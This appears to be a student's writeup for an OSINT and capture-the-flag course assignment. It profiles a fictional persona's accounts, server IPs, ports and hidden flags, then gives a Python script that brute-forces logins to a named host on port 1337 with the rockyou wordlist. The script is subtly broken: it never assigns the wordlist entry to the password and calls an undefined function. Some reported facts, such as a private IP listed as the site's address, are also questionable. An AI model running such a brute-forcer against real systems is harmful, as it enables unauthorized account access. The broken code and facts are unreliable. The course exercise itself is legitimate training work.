 # Writeup 2 - OSINT

Name: Ramsay Farah
Section: 0101

I pledge on my honor that I have not given or received any unauthorized assistance on this assignment or examniation.

Digital acknowledgement: Ramsay Farah

## Assignment Writeup

### Part 1 (45 pts)

*Please use this space to writeup your answers and solutions (and how you found them!) for part 1.*
1. What is `v0idcache`'s real name?
Her real name is Elizabeth Moffet.

2. Where does `v0idcache` work? What is the URL to their website?
She works at Elite Banking and the URL is 1337bank.money.

3. List all personal information (including social media accounts, contacts, etc) you can find about `v0idcache`. For each, briefly detail how you discovered them.
On her works website, I found her email which is v0idcache@protonmail.com. By using checkusername.com, I was able to see which websites she is logged in on. I found her twitter, which is @v0idcache.

4. List any ( >= 1 ) IP addresses associated with the website. For each, detail the location of the server, any history in DNS, and how you discovered this information.
I found two IPs.
142.93.136.81
10.0.2.2
I found these using a namp on the 1337bank.money.

5. List any hidden files or directories you found on this website. For full credit, list *two* distinct flags.
I found the /secret_directory directory.
-{h1dd3n_1n_plain_5ight}
-{h1ding_fil3s_in_r0bots_L0L}

6. What ports are open on the website? What services are running behind these ports? How did you discover this?
I found two ports through nmapping and one other through scanning through the ports that could be open. They are 22, 80, 1337.
22 has tcp and open ssh
80 has tcp and open http

7. Which operating system is running on the server that is hosting the website? How did you discover this?
By using censys.io I found that the operating system is Ubuntu.

8. **BONUS:** Did you find any other flags on your OSINT mission? (Up to 9 pts!)
{h1d3_s3cret_g1ts}

### Part 2 (75 pts)

*Please use this space to detail your approach and solutions for part 2. Don't forget to upload yourcompleted source code to this /writeup directory as well!*

The way I combatted this problem I broke it into steps. The first step was to be able to access the wordlist and be able to iterate through it. After that was done, I needed to be able to receive the data I was gathering. After getting the data, I needed to send the data to the server. After that, all I had to do is wait for the right password to come appear.

import socket

host = '142.93.136.81' # IP address here
port = 1337 # Port here
wordlist = "/usr/share/wordlists/rockyou.txt" # Point to wordlist file

def brute_force():
    """
        Sockets: https://docs.python.org/2/library/socket.html
        How to use the socket s:
            # Establish socket connection
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((host, port))
            Reading:
                data = s.recv(1024)     # Receives 1024 bytes from IP/Port
                print(data)             # Prints data
            Sending:
                s.send("something to send\n")   # Send a newline \n at the end of your command
        General idea:
            Given that you know a potential username, use a wordlist and iterate
            through each possible password and repeatedly attempt to login to
            v0idcache's server.
    """

    username = "v0idcache"   # Hint: use OSINT
    password = ""   # Hint: use wordlist
    with open(wordlist) as file:
        for line in file:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((host,port))
            s.recv(1024)
            s.send((username+"\n").encode())
            s.recv(1024)
            s.send((password).encode())
            passwd = byte_to_string(s.recv(1024))
            s.close()
            if(passwd != "Fail" and passwd != ""):
                print("\n\nSUCCESS :: Password [ {} ]\n\n".format(password))
                break




if __name__ == '__main__':
    brute_force()
